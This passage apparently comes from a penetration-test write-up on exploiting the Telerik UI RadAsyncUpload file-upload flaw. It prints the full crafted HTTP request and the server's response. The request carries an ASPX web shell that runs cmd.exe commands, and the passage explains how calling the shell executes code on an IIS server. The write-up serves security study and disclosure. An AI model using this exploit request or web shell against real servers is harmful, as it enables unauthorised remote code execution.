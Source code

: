 1. The P parameter contains the path of the destination folder where the file needs to be uploaded. In our case it contained the path of the web root we discovered at an earlier stage.
    
2. The version of Telerik UI so that the tool can use the correct key to encrypt the _rauPostData_
    
3. The file to upload. In our case, the malicious .aspx file shown above.
    
4. The target URL of the Telerik RadAsyncUpload endpoint.
    
5. The address of a proxy to inspect the requests performed by the tool
    

By launching the tool, the following request was performed:

```
POST /ApplicationPath/Telerik.Web.UI.WebResource.axd?type=rau HTTP/1.1Host: victim.comAccept-Encoding: gzip, deflateContent-Length: 3221Content-Type: multipart/form-data; boundary=---------------------------62616f37756f2fConnection: close​-----------------------------62616f37756f2fContent-Disposition: form-data; name="rauPostData"​ATTu5i4R+V[Encrypted rauPostData Payload in base64]FAlzLUg==-----------------------------62616f37756f2fContent-Disposition: form-data; name="file"; filename="blob"Content-Type: application/octet-stream​<%@ Page Language="VB" Debug="true" %><%@ import Namespace="system.IO" %><%@ import Namespace="System.Diagnostics" %>​<html xmlns="www.w3.org/1999/xhtml"><head runat="server">    <title>Test</title></head><body>    <form id="form1" runat="server">    <div>    <%     Dim myProcess As New Process()                Dim myProcessStartInfo As New ProcessStartInfo("c:windowssystem32cmd.exe")    myProcessStartInfo.UseShellExecute = false    myProcessStartInfo.RedirectStandardOutput = true    myProcess.StartInfo = myProcessStartInfo    myProcessStartInfo.Arguments="/c dir"    myProcess.Start()    Dim myStreamReader As StreamReader = myProcess.StandardOutput    Dim myString As String = myStreamReader.Readtoend()    myProcess.Close()    mystring=replace(mystring,"<","&lt;")    mystring=replace(mystring,">","&gt;")    Response.Write(vbcrlf & "<pre>" & mystring & "</pre>")    %>    </div>    </form></body></html>-----------------------------62616f37756f2fContent-Disposition: form-data; name="fileName"​RAU_crypto.bypass-----------------------------62616f37756f2fContent-Disposition: form-data; name="contentType"​text/html-----------------------------62616f37756f2fContent-Disposition: form-data; name="lastModifiedDate"​2019-01-02T03:04:05.067Z-----------------------------62616f37756f2fContent-Disposition: form-data; name="metadata"​{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test_109742195623.aspx"}-----------------------------62616f37756f2f--
```

It is possible to notice that the application performs a request to the _"/Telerik.Web.UI.WebResource.axd?type=rau"_ endpoint attaching the malicious file and the _rauPostData_ parameter containing all the encrypted metadata required for Telerik to handle the uploaded file.

Since the _rauPostData_ parameter was encrypted with the hardcoded key of the 2014.2.724 Telerik version it accepts the unauthenticated upload as shown in the response to the previous request.

Response:

```
HTTP/1.1 200 OKCache-Control: privateContent-Type: text/html; charset=utf-8Date: Wed, 01 Apr 2020 10:48:50 GMTConnection: closeContent-Length: 667​{"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":884,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"[Base64 Metadata]" }
```

Since the malicious ".aspx" was uploaded to a known folder in the web root of the application, it was then sufficient to recall the file with a URL of the application to execute the code. The following screenshot shows how the code prints the content of the "_C:WindowsSysWOW64inetsrv_" directory belonging to the IIS Web Server that is hosting the vulnerable application.

